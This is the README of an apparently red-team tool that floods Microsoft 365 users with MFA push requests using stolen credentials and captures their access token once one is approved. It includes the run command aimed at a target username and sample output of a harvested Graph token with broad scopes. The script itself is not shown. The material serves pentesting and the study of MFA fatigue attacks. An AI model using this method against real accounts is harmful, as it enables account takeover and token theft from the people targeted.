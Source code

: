# Microsoft 365 MFA Bombing Script

This Python script automates the authentication process for Microsoft 365 by using the device code flow and Selenium for automated login.
It keeps bombing the user with MFA requests and stores the access_token once the MFA was approved.

It is intended to be used in Social Engineering / Red-Team / Pentesting scenarios when targeting O365/MS-Online users in Azure (now called Entra ID).

In case a username & password combination was compromised it can be used to flood the authenticator app with authentication requests.
Once the second factor has been approved the valid JWT access_token will be stored in decoded and encoded format locally. The token can be reused in other tools like [TokenTactics](https://github.com/f-bader/TokenTacticsV2), [GraphRunner|(https://github.com/dafthack/GraphRunner) or manual requesting different endpoints in Azure...

## Applicability
Microsoft used to offer different MFA authentication mechanisms within their authenticator app like:

- Push Notification Approval
- Time-Based One-Time Password (TOTP)
- Phone Sign-in
- Number Matching
- Passwordless Sign-in

As of May 2023 Microsoft mostly disarmed this fatigue bombing attacks by enforcing the number matching mechanism which require the user to manually enter a two digit number which is presented in the browser as part of the login flow. Generally speaking that breaks simple bombing flows as only the victim is posession of the matching number. However one could still retreive the information via real-time social engineering.
If you find environments that still rely on classic push notifications, this attack vector should still work fine. Also I leave it to your own creativity to find applicable scenarios ;-)

## Usage

### Installation

1. Clone this repository.

2. Install the required dependencies by running:

   ```bash
   pip install -r requirements.txt
    ```

### Running the Script
To run the script, execute the following command:

```bash

python m365-fatigue.py --user <username> [--password <password>] [--interval <seconds> (default: 60)]
````

Replace <username> with the target Microsoft 365 username. The password can be provided directly after the --password flag, or the script will prompt for it if not supplied.

The --interval flag allows you to set the polling interval in seconds (default is 60 seconds).

### Sample output

```bash
m365-fatigue python3 m365-fatigue.py --user user@domain.com
Enter your password: 
[*] Username: user@domain.com
[*] Password: ********************************
[*] Device code:
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code GKZAQ433Q to authenticate.
Bei Ihrem Konto anmelden
https://login.microsoftonline.com/common/oauth2/deviceauth
https://login.microsoftonline.com/common/oauth2/deviceauth
Base64 encoded JWT access_token:
eyJ0 ... [dedacted] ... dsgHmA
Decoded JWT payload:
{
    "aud": "https://graph.microsoft.com",
    "iss": "https://sts.windows.net/90931373-6ad6-49cb-9d8c-22eebb6968fa/",
    "iat": 1701428346,
    "nbf": 1701428346,
    "exp": 1701433450,
    "acct": 0,
    "acr": "1",
    "aio": " ... [dedacted] ... ",
    "amr": [
        "pwd",
        "mfa"
    ],
    "app_displayname": "Microsoft Office",
    "appid": " ... [dedacted] ... ",
    "appidacr": "0",
    "family_name": " ... [dedacted] ... ",
    "given_name": " ... [dedacted] ... ",
    "idtyp": "user",
    "ipaddr": " ... [dedacted] ... ",
    "name": " ... [dedacted] ... ",
    "oid": " ... [dedacted] ... ",
    "onprem_sid": " ... [dedacted] ... ",
    "platf": "3",
    "puid": " ... [dedacted] ... ",
    "rh": " ... [dedacted] ... ",
    "scp": "AuditLog.Read.All Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read Files.Read.All Files.ReadWrite.All Group.Read.All Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Notes.Create Organization.Read.All People.Read People.Read.All Printer.Read.All PrintJob.ReadWriteBasic SensitiveInfoType.Detect SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read",
    "sub": " ... [dedacted] ... ",
    "tenant_region_scope": "EU",
    "tid": " ... [dedacted] ... ",
    "unique_name": " ... [dedacted] ... ",
    "upn": " ... [dedacted] ... ",
    "uti": " ... [dedacted] ... ",
    "ver": "1.0",
    "wids": [
        " ... [dedacted] ... "
    ],
    "xms_tcdt":  ... [dedacted] ... ,
    "xms_tdbr": "EU"
}
[*] Successful authentication. Access token expires at: 2023-12-01 12:24:10
[*] Storing token...
Stored Base64 encoded access token as 'access_token_user@domain.com_20231201120406.txt'
Stored decoded access token as 'access_token_user@domain.com_20231201120406.json'
Exiting...
```

## TODO
The fireprox implementation is yet not finished and may or may not be implemented in the future...

# Notes
This script utilizes Selenium, which requires a compatible WebDriver (in this case, Chrome WebDriver... but you can change it towards something else if you need to).

# Credits & Acknowledgements
Heavily inspired by the awesome work of Steve Borosh ([@rvrsh3ll](https://github.com/rvrsh3ll)) and Beau Bullock ([@dafthack](https://github.com/dafthack)). Huge kudos to them for all the awesome research and tooling they release.

# License
This project is licensed under the [MIT License](https://chat.openai.com/c/LICENSE).

